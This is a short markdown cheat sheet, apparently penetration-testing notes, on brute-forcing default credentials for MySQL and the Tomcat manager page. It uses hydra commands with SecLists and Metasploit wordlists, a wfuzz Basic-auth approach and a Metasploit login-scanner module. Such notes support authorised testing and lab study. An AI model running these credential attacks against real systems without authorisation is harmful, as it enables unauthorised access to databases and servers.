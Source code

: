 # brute force default credentials

## mysql
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

## tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

### wfuzz
header `Authorization: Basic FUZZ`
/usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist_base64encoded.txt

### metasploit
auxiliary/scanner/http/tomcat_mgr_login

